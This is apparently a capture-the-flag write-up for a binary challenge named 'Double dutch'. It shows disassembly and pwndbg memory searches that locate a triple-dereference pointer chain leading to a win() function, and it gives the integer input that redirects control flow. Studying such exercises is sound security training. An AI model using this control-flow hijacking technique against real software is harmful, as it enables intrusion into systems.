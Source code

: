 # Double dutch:

## Protections:
* NX stack
* Canary
* Probably ASLR

## Exploit notes:
* The address of win() is 0x08048884
* We feed the program an address and this address is derefernced 3 times as
shown below:
```Assembly
    mov eax, dword ptr [esp + 0x14]     # this is the number from scanf("%d")
    mov eax, dword ptr [eax]            
    mov eax, dword ptr [eax]
    ...
    just a bunch of operations that don't change eax
    ...
    call eax
```

## Initial thoughts:
* Maybe the address of win is on the stack.

## Search for address of win():
* We can use the pwn plugin called "search" to find the address of win() is it is
present anywhere in memory:
```
pwndbg> search -t dword 0x08048884
0x804889c test   byte ptr [eax + 0x4080804], cl

pwndbg> x/32x 0x804889c
0x804889c <instruction_list+3>:	0x08048884	0x90880408	0x08048899	0x99880408
0x80488ac <instruction_list+19>:	0x04889c9b	0x04889d08	0xc35d9008	0x83e58955
0x80488bc <main+4>:	0xec83f0e4	0x2404c720	0x080c08bc	0x007e83e8
0x80488cc <main+20>:	0x0498a100	0x0489080f	0x7bd6e824	0x448d0000
0x80488dc <main+36>:	0x44891424	0x04c70424	0x0c08e324	0x7582e808
0x80488ec <main+52>:	0x448b0000	0x008b1424	0x4489008b	0x448b1824
0x80488fc <main+68>:	0x44891824	0x448b1c24	0xd0ff1c24	0x000000b8
0x804890c <main+84>:	0x90c3c900	0x53565755	0x00096de8	0xe7c58100

pwndbg> search -t dword 0x804889c
0x80488ad pushfd

pwndbg> x/32x 0x80488ad
0x80488ad <instruction_list+20>:	0x0804889c	0x0804889d	0x55c35d90	0xe483e589
0x80488bd <main+5>:	0x20ec83f0	0xbc2404c7	0xe8080c08	0x00007e83
0x80488cd <main+21>:	0x0f0498a1	0x24048908	0x007bd6e8	0x24448d00
0x80488dd <main+37>:	0x24448914	0x2404c704	0x080c08e3	0x007582e8
0x80488ed <main+53>:	0x24448b00	0x8b008b14	0x24448900	0x24448b18
0x80488fd <main+69>:	0x24448918	0x24448b1c	0xb8d0ff1c	0x00000000
0x804890d <main+85>:	0x5590c3c9	0xe8535657	0x0000096d	0x76e7c581
0x804891d <get_common_indeces.constprop.1+13>:	0xec81000a	0x00000108	0x0c89c085	0xc8840f24
pwndbg>
```

## Steps to exploit:
* We basically feed the program 0x80488ad which is 134514861 as an integer.

## Scripts used:
* See exploit.py
